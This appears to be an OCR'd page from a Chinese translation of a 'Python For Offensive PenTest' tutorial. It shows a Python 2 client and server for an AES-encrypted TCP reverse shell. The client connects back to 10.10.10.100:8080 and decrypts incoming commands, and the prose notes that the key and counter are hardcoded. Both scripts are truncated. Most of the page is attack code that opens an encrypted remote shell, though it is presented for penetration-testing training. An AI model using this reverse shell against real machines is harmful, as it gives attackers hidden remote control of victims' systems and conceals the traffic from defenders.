 ```
# Python For Offensive PenTest# Download Pycrypto for Windows - pycrypto 2.6 for win32 py 2.7
# http://www.voidspace.org.uk/python/modules.shtml#pycrypto

# Download Pycrypto source
# https://pypi.python.org/pypi/pycrypto
# For Kali, after extract the tar file, invoke "python setup.py install"

# AES - Client - TCP Reverse Shell

import socket 
import subprocess 

from Crypto.Cipher import AES

counter = "H"*16
key = "H"*32

def encrypt(message):
    encrypto = AES.new(key, AES.MODE_CTR, counter=lambda: counter)
    return encrypto.encrypt(message)

def decrypt(message):
    decrypto = AES.new(key, AES.MODE_CTR, counter=lambda: counter)
    return decrypto.decrypt(message) 

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.connect(('10.10.10.100', 8080)) 

    while True: 
        command = decrypt(s.recv(1024))
        print ' We received: ' + command

...
```

我添加的是一个新的加密和解密函数，适用于双方，正如你所看到的，密钥和计数器值在两端都是硬编码的。我需要提到的一个旁注是，我们将在后面的混合加密中看到，如何从 Kali 机器生成一个随机值并安全地传输到我们的目标，但现在，暂时让我们将其硬编码在这里。

以下是服务器端脚本：

```
# Python For Offensive PenTest

# Download Pycrypto for Windows - pycrypto 2.6 for win32 py 2.7
# http://www.voidspace.org.uk/python/modules.shtml#pycrypto

# Download Pycrypto source
# https://pypi.python.org/pypi/pycrypto
# For Kali, after extract the tar file, invoke "python setup.py install"

# AES - Server- TCP Reverse Shell

import socket 
from Crypto.Cipher import AES

counter = "H"*16
key = "H"*32

...

def connect():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
```